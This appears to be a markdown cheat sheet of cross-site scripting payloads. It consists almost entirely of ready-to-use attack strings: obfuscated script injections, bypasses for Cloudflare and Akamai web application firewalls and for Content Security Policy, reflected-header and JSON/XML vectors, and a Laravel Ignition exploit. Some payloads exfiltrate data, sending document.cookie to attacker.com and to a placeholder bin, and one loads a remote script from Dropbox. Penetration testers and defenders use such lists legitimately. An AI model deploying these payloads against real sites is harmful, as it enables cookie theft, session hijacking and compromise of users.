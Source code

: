 # Custom XSS Payloads
```javascript
<img src=123><img src=123><a href="javascript:alert(document.domain)">xss</a><svg></svg><img src=1>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
<script /***/>/***/confirm(document.cookie,document.domain)/***/</script /***/
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(document.domain,document.cookie)&NewLine;>X</a>
<iframe onload="javascript:prompt(document.domain)" id="hello" role"world">Hello google
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
returnuri=%09Jav%09ascript:alert(document.domain)
var onskeywords = 'hello';onload=prompt(0);
"hello" onmouseover=prompt(0) world=""
test"t"\t/t%3Ct%3Et
"â™ˆ<<sVg/onloadâ™ˆ=/svg/onload=svg/onmouseOver=confirm'1'><!--â™ˆ//="
/><svg src=x onload=confirm(document.domain);>
<script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
<svg/onload=alert(document.domain)>")
<<!<script>iframe src=javajavascriptscript:alert(document.domain)>
"><svg onload=alert`XSS`>
foo style=animation-name:gl-spinner-rotate onanimationend=alert(1)  -- apply this in profile name section
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
<a"/aonclick=(confirm)()>click
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
'-(a=alert,b="_Yooo!_",[b].find(a))-'
%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
<sCRipT>alert(1)</sCRiPt>
<script>%0aalert(1)</script>
<scr<script>ipt<alert(1);</scr<script>ipt>
<input onfocus="alert('xss');" autofocus>
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
<svg•onload=alert(1)>
<script>alert?.(document?.domain)</script>
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
<x/onpointerRawupdate=confirm%26Ipar;1)//x
<script src=//⑮.₨></script>
img{background-image:url('javascript:alert()')}
<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
"><img class="emoji" alt="😯" src="x" /><svg
">'><details/open/ontoggle=confirm(1337)>
%<script>3cscript%<script>3ealert(1)%<script>3c/script%<script>3e
<input disabled=disabled onbeforecopy=alert(1) value=copyme>
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
</script><script>alert('xElkomy')</script>
OnMoUsEoVeR=prompt(/hacked/)//
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
"mitsec<form/><!><details/open/ontoggle=alert(document.domain)>"@gmail.com
"><body/oNpagEshoW​=(confirm)(document.domain)>
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS​=alert`1` //
"><details/open/id="&XSS"ontoggle​=alert("XSS_WAF_BYPASS_:-)")>
<img/src/onerror​=alert&#xFEFF;(1)>
'"><svg><animate onbegin​=alert('hacked') attributeName=x></svg> 
<a href=javascript​:alert('hacked')>Click Here</a>
<IFRAME SRC="javascript​:alert('hacked');"></IFRAME>
<div ng-app> <strong class="ng-init:constructor.constructor('alert('hacked')')()">aaa</strong> </div>
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS​=alert`hacked` //
<noscript><p title="</noscript><img src=x onerror=([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+(document.cookie))()>">
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

```
## XSS via Reflected Headers
```http
X-Original-URL: https://attacker.com/
X-Original-URL: test//test\
X-Original-URL: https:\\samcurry.net/please//work
True-Client-IP: <h1>XSS</h1></center><script>alert(document.domain)</script>
```
## XSS payload with Alert Obfuscation, for bypass RegEx filters
```js
<img src="X" onerror=top[8680439..toString(30)](1337)>
```

## Logical assignment operators in JavaScript
```js
window&&=(window&&=opener||=alert)?.(1??0,)
```
## Which results alert(1)
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```
## RXSS
```js
%22%3Cimg%2F**%2Fsrc%3D%22x%22%2F**%2Fonx%3D%22%22%2F**%2Fonerror%3D%22alert%60xss%60%22%3Ef9y60 --encoded
"<img/**/src="x"/**/onx=""/**/onerror="alert`xss`">f9y60 --decoded
OnMoUsEoVeR=prompt(/hacked/)//
```

## Clourflare XSS bypass
```js
<a"/onclick=(confirm)()>Click Here!
%2sscript%2ualert()%2s/script%2u
<svg onload=alert%26%230000000040"1")
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## When you find input field which allows " (quotes), try this payload:
```js
"autofocus onfocus=alert(1)//
```
-> Doesn't work

**Try this**
```js
"type%3d"text"autofocus%20onfocus%3d"alert(1)"
```
-> Works

## Akami WAF XSS Bypass
```js
xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*"
```

Limited case Akamai WAF bypass
```js
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
```
Works in cases where double quotes are escaped 

`<xhzeem/x=\" ....>`

can also work with single quotes (change it in the payload)
![img](https://pbs.twimg.com/media/Ex-cjUQXIAIRw-y?format=jpg&name=small)

## Stored XSS
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## XSS via xml
```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
```

## XSS in Json
```text
["');alert('XSS');//"]@xyz.xxx
```

## CSP Bypass
```js
<Button href="javascript://%0aalert(document.domain)">XSS</Button>
javascript://%0dalert()
javascript:/**/%0aalert()
```

## Bypass XSS WAF, Filters and Akamai src,svg,autofocus,iframe,img,<>
```js
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```

## Reflected XSS
```js
url=%26%2302java%26%23115cript:alert(document.domain)
```
## Laravel Ignition Reflected Cross-Site Scripting
```js
host+/_ignition/scripts/--%3E%3Csvg%20onload=alert('XSS')%3E
```

![img](https://pbs.twimg.com/media/F-pD1E9bYAAo8IB?format=jpg&name=small)

[Ref](https://x.com/momika233/status/1723264646940082330?s=20)

### A payload with some obfuscation & filter evasion tricks
```
<img%20hrEF="x"%20sRC="data:x,"%20oNLy=1%20oNErrOR=prompt1>

<img/src/onerror=setTimeout(atob(/YWxlcnQoMTMzNyk/.source))>
```

## Send Cookies to remote server
```js
"><img src=x onerror=this.src=https://attacker.com/?+document.cookie;>
```

## Reflected XSS

```js
https://REDACTED/subscribe?source=mllamazares%22%20accesskey=%22X%22%20onclick=%22alert(document.domain)%22/%3EPress%20Alt%2BShift%2BX%20to%20continue%20
```

